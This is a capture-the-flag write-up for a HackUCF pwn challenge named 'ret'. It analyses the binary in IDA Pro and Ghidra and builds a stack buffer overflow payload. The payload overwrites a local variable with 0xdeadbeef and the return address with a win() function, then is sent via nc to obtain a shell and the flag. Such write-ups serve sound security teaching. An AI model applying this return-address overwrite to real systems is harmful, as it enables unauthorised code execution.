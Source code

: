 # ret
**Category:** Pwn

**Points:** 50

**Description:**

Author: kablaa

nc ctf.hackucf.org 9003

> **Files:** ret, libpwnableharness32.so

## Write-up
When run, the code waits for user input, then prints a message:
```
> nc ctf.hackucf.org 9003
hello
you suck!

```
There was no code provided, so I started by running `strings` over the executable:
```
...
[^_]
you Win!
/bin/sh
you suck!
ctf_ret
;*2$"
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.9) 5.4.0 20160609
crtstuff.c
__JCR_LIST__
deregister_tm_clones
__do_global_dtors_aux
completed.7209
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
ret.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
__x86.get_pc_thunk.bx
_edata
__data_start
puts@@GLIBC_2.0
system@@GLIBC_2.0
__gmon_start__
exit@@GLIBC_2.0
__dso_handle
handle_connection
_IO_stdin_used
...
```
You can see there is a `you Win!` message which is where we need to get to, the `you suck!` message, and the `handle_connection` function which will do the work. I opened the code in IDA Pro to look at that function. It just calls another function named `func`:

![Handle connection function](handle_connection.png)

So I looked at the `func` function:

![Func function](func.png)

Looking at the `func` function we can see a 4-byte (integer) variable set to 0 (`ebp+var_C`), a call to `scanf()` and a comparison of the variable `ebp+var_C` to `0xdeadbeef`. This means we need to overwrite the integer variable with the value for `0xdeadbeef`. However, this won't be enough. The jump after the comparison doesn't jump to the `win()` function, but instead just returns. This means we also need to overwrite the return pointer on the stack to point to the `win()` function.

I had a look at the decompiled code in Ghidra to confirm what I saw in IDA Pro:

![Decompiled func function](func_c.png)

Now we can see we have a 64-byte `buffer`, and our integer `value`. Lets start debugging and look at the stack.

First I create a file containing just 64 `A` characters to help us see our stack layout:
```
> python -c "print('A'*64)" > inp.txt
```
This file can now be used in the **Process options** of the debugger to send the characters to the running process. Now lets run it and look at what's happening.

If we look at the `handle_connection` function, and where it calls `func`, we can see that the next statement after the call is at `0x08048696`:

![Handle connection function addresses](handle_connection_return.png)

We can see this address on the stack at `0xffb6e31C`

![Stack return address](stack_return_address.png)

If we hover the mouse over `ebp+var_C`, we can see the address of that variable on the stack is `0xffb6e30c`:

![ebp+var_C address](ebp_var_c_location.png)

and if we look at that on the stack we can see it has been set to zero:

![Value on stack](value_on_stack.png)

If we hover the mouse over `ebp+var_4C`, we can see the address of the buffer on the stack is `0xffb6e2cc`:

![ebp+var_4C address](ebp_var_4c_location.png)

and, once we've passed the `scanf()` call, we can see the buffer filled with `A` characters on the stack:

![Buffer on stack](buffer_on_stack.png)

As a first try we can put 64 `A` characters, followed by `0xdeadbeef`, followed by 12 `A` characters, followed by the address of the `win()` function. This will overwrite some other parts of the stack, which may cause problems, but we can try it.

Looking at the code, the address we need for the `win()` function is `0x0804861B`:

![Win function](win_func.png)

We can also see that calling the `win()` function will give us a shell on the server, so we can `cat` the flag file.

 We need to remember that both `0xdeadbeef` and the `win()` address need to be reversed on the stack. However, our return address has the same first four bytes as our `win()` address, so we can just change 1 byte to set it. Our `inp.txt` file is now created with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B')" > inp.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B')" > inp.txt

Only changing the single value in the address didn't work because `scanf()` adds a `NULL` terminator on the end of the input string, overwriting the next byte with `0x00`. Therefore, I tried again with the full address:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" > inp.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" > inp.txt

This works in the debugger, so now we can test it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" | nc ctf.hackucf.org 9003
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" | nc ctf.hackucf.org 9003

This didn't work because I forgot to use `cat` to ensure we get chance to interact with the shell (see [Gimme Shellcode](../Scripting_GimmeShellcode/README.txt)). I now tried:
```
> (python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" ; cat) | nc ctf.hackucf.org 9003
you Win!

ls
flag.txt
ret
cat flag.txt
flag{<flag was here>}
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
(python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" ; cat) | nc ctf.hackucf.org 9003

After the `you Win!` message I had a shell and was able to type `ls` and then `cat flag.txt` to get the flag!
